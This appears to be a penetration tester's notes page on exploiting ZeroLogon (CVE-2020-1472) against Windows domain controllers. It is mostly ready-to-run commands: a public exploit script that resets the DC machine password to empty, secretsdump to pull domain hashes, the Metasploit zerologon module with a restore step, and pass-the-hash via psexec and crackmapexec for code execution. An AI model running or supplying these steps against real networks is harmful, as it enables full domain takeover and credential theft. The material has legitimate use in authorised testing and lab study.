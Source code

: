 # ZeroLogon

{% embed url="https://github.com/VoidSec/CVE-2020-1472" %}

a full white paper on this vuln:

{% embed url="https://www.secura.com/blog/zero-logon" %}

## <mark style="color:red;">Exploitation</mark>

```
pipenv shell
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python setup.py install
pip install .
cd ~
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
pip install -r requirements.txt
./cve-2020-1472-exploit.py -n domain-controller -t 192.168.56.208
```

Running the script should results in Domain Controller's account password being reset to an empty string.

![](<../../../.gitbook/assets/image (16) (1) (1) (1).png>)

test to see if the password was reseted:

```
impacket-secretsdump  -no-pass -just-dc MEGACORP.local/Lord_of_Domains\$@192.168.56.118
```

![](<../../../.gitbook/assets/image (9) (1) (1) (1).png>)

## <mark style="color:red;">Metasploit Module</mark>

{% hint style="info" %}
The `auxiliary/gather/windows_secrets_du p` module can be used to recover the original machine account password which can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.
{% endhint %}

### <mark style="color:orange;">Verification Steps</mark>

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string:
2. Recover the original machine account password
3. Restore the original machine account password

**NBNAME :** The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain this value. If this value is invalid the module will fail when making a Netlogon RPC request.

**PASSWORD** : The hex value of the original machine account password. This value is typically recovered from the target system's registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the value to an empty string within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
set RHOSTS 192.168.159.53
set NBNAME WIN-GD5KVDKUNIP
run

# output:
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the machine account and the `SMBPass` option to the empty password value.

### <mark style="color:orange;">Recover Password</mark>

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex` value in the `$MACHINE.ACC` section.

```
use auxiliary/gather/windows_secrets_dump
set RHOSTS 192.168.159.53
set SMBUser WIN-GD5KVDKUNIP$
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
run
```

Finally, restore the original value using this module.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set ACTION RESTORE
set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
run
```

## <mark style="color:red;">PSEXEC</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
impacket-psexec -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  domain.local/Administrator@192.168.120.247
```

## <mark style="color:red;">crackmapexec</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
crackmapexec smb 192.168.120.247 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  -d domain.local -x whoami
```

